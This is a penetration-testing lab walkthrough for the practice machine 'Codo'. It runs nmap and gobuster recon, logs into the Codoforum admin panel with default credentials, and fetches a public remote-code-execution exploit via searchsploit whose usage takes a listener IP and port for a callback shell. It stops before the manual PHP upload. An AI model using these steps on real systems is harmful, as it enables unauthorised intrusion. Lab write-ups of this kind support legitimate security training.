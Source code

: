 ```yaml
---
title: Codo
date: 2023-12-10
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Linux
  - Easy
---
```


![info](./info.png)

# Recon
![info-comm](./info-comm.png)
This machine has a Linux OS and is rated intermediate by the community.

Remember to make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.183.23  codo
```
## Nmap
```
nmap -p- --open -sC -sV exfiltrated.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.
![nmap](./nmap.png)

The nmap scan discovered a web application
- Browse to `http://codo/` and we can see that the website is `Powered by Codoforum`

## Gobuster
```
gobuster dir -u codo/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt 
```
![gobuster](./gobuster.png)
The gobuster scan found an admin panel at `/admin/`
- The default credentials `admin:admin` can be used to log in

## Searchsploit
```
searchsploit codoforum
```
![searchsploit](./searchsploit.png)
Searchsploit returns a couple scripts, but the remote code execution python script looks the most interesting, download the script using:
```
searchsploit -m php/webapps/50978.py
```
- looking at this script shows the following URL location that allows for file upload
![urlUpload](./urlUpload.png)
- when going to the URL in the browser, we are indeed able to upload an image file

# Exploitation
Let's run the script found from searchsploit. The format for the flags are shown below.
```
python3 exploit.py -t [target url] -u [username] -p [password] -i [listener ip] -n [listener port]
```
![firstrun](./firstrun.png)

Unfortunately, the script does not run correctly and fails in uploading the script. We can manually upload a PHP script as shown by the output.

